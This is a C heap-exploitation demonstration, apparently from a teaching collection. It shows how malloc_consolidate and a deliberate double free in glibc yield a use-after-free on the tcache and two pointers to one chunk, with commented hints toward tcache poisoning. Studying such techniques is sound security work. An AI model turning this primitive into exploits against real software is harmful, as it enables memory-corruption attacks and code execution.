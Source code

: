 ```c
	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

	// void* ppoison = malloc(0x400);
	// ^ We would have to allocate this to be able to do tcache poison later, since we need at least 2 chunks in a bin to do it.

	void* p1 = calloc(1,0x40);
	// Using calloc here doesn't take from the tcache since calloc calls _int_malloc (https://elixir.bootlin.com/glibc/glibc-2.35/source/malloc/malloc.c#L3679) 
	// and taking from the tcache is handled in __libc_malloc. If we used malloc(0x40) the chunk would get taken from the tcache.

	printf("Allocate another chunk of the same size p1=%p \n", p1);
  	printf("Freeing p1 will add it to the fastbin.\n\n");
  	free(p1);

  	void* p3 = malloc(0x400);

	// free(ppoison);
	// We can now free this chunk to put it in the tcache bin for the poison.

	printf("To trigger malloc_consolidate we need to allocate a chunk with large chunk size (>= 0x400)\n");
	printf("which corresponds to request size >= 0x3f0. We will request 0x400 bytes, which will gives us\n");
	printf("a tcache-sized chunk with chunk size 0x410. p3=%p\n", p3);

	printf("\nmalloc_consolidate will merge the fast chunk p1 with top.\n");
	printf("p3 is allocated from top since there is no bin bigger than it. Thus, p1 = p3.\n");

	assert(p1 == p3);

  	printf("We will double free p1, which now points to the 0x410 chunk we just allocated (p3).\n\n");
	free(p1); // vulnerability

	printf("So p1 is double freed, and p3 hasn't been freed although it now points to a free chunk.\n");
	printf("We have thus achieved UAF on tcache!\n");

	// *(long long*)p3 = target;
	// We can use the UAF here to perform tcache poison.

	printf("We will request a chunk of size 0x400, this will give us the 0x410 chunk thats currently in\n");
	printf("the tcache bin. p3 and p1 will still be pointing to it.\n");
	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("We now have two pointers (p3 and p4) that haven't been directly freed\n");
	printf("and both point to the same tcache sized chunk. p3=%p p4=%p\n", p3, p4);
	printf("We have achieved duplication!\n\n");

	printf("Note: This duplication would have also worked with a larger chunk size, the chunks would\n");
	printf("have behaved the same, just being taken from the top instead of from the tcache bin.");

```